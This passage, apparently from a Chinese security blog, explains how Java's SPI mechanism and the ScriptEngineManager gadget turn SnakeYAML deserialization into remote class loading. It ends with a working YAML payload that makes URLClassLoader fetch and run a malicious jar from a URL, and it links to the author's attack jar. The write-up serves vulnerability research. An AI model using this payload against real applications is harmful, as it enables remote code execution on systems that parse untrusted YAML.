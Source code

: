 ### SPI使用

先看看SPI怎么用的：

* 定义接口：首先需要定义一个接口，所有实现该接口的类都将被注册为服务提供者。

* 创建实现类：创建一个或多个实现接口的类，这些类将作为服务提供者。

* 配置文件：在 META-INF/services 目录下创建一个以接口全限定名命名的文件（也就是我们前面分析的configs），文件内容为实现该接口的类的全限定名，每个类名占一行。

* 加载使用服务：使用 java.util.ServiceLoader 类的静态方法 load(Class service) 加载服务，默认情况下会加载 classpath 中所有符合条件的提供者。调用 ServiceLoader 实例的 iterator() 方法获取迭代器，遍历迭代器即可获取所有实现了该接口的类的实例。

所以我们本地需要在META-INF/services创建一个文件（用于configs加载），文件内容是我们需要加载的类的全限定名

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241023153838191.png)

然后恶意类实现ScriptEngineFactroy接口，并在构造函数 or 静态代码块写恶意代码。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241023153932389.png)

为什么是ScriptEngineFactory接口？

根据前面的内容，我们不难推断漏洞触发为ServiceLoader.load生成迭代器，调用迭代器时完成任意类加载

我们看下ScriptEngineFactory完成SPI的代码：

ScriptEngineFactory.initEngines先调用getServiceLoader，然后获取了迭代器，并在循环中使用了迭代器（hasNext->next）

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241023154445075.png)

其中getServiceLoader就是ServiceLoader.load

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241023154554020.png)

这里load传入的service时ScriptEngineFactory，所以我们的恶意类需要实现ScriptEngineFactory接口

### POC

META-INF目录结构，放configs。恶意类放在源代码目录

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241023164923527.png)

为了一个URL同时对外部提供这两个文件用于加载，需要打包成jar，我打包好了发布在了my github：

https://github.com/godownio/java_unserial_attackcode/blob/master/src/main/java/org/exploit/third/SnakeYaml/EvilServiceScriptEngineFactory_jdk8.jar

POC：

```java
public class ScriptEngineManger {
    public static void main(String[] args) {
        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8888/EvilServiceScriptEngineFactory_jdk8.jar\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```
